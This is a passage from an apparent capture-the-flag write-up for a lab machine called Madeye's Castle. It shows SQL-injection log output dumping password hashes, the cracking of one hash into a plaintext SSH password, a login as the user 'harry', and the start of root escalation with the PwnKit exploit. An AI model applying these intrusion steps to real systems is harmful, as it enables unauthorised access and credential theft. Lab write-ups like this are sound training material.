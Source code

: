 ```
[19:02:19] [INFO] resumed: contact administrator. Congrats on SQL injection... keep digging
[19:02:19] [INFO] resumed: 5628255048e956c9659ed4577ad15b4be4177ce9146e2a51bd6e1983ac3d5c0e451a0372407c1c7f70402c3357fc9509c24f44206987b1a31d43124f09641a8d
[19:02:19] [INFO] resumed: 0
[19:02:19] [INFO] resumed: Adam Jenkins
[19:02:19] [INFO] resumed: contact administrator. Congrats on SQL injection... keep digging
[19:02:19] [INFO] resumed: 2317e58537e9001429caf47366532d63e4e37ecd363392a80e187771929e302922c4f9d369eda97ab7e798527f7626032c3f0c3fd19e0070168ac2a82c953f7b
[19:02:19] [INFO] resumed: 0
```
I noticed the comment of the user Harry Turner so I cracked his hash using [this](https://www.dcode.fr/sha512-hash) web tool

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_madeyescastle/cracked.png)

So I logged into SSH using credentials harry:wingardiumleviosa123
```
$ ssh harry@madeye.thm
Warning: Permanently added the ECDSA host key for IP address '10.10.220.41' to the list of known hosts.
harry@madeye.thm's password: 
 _      __    __                     __         __ __                          __
 | | /| / /__ / /______  __ _  ___   / /____    / // /__  ___ __    _____ _____/ /____
 | |/ |/ / -_) / __/ _ \/  ' \/ -_) / __/ _ \  / _  / _ \/ _ `/ |/|/ / _ `/ __/ __/_ /
 |__/|__/\__/_/\__/\___/_/_/_/\__/  \__/\___/ /_//_/\___/\_, /|__,__/\_,_/_/  \__//__/
                                                        /___/

Last login: Thu Nov 26 01:42:18 2020
harry@hogwartz-castle:~$ 
```
We got user!

## Root
When shell was obtained I needed to get root so I started enumerating OS and found something into Linux version
```
$ uname -a
Linux hogwartz-castle 4.15.0-124-generic #127-Ubuntu SMP Fri Nov 6 10:54:43 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
It's running a vulnerable kernel so I uploaded PwnKit into the machine and run it
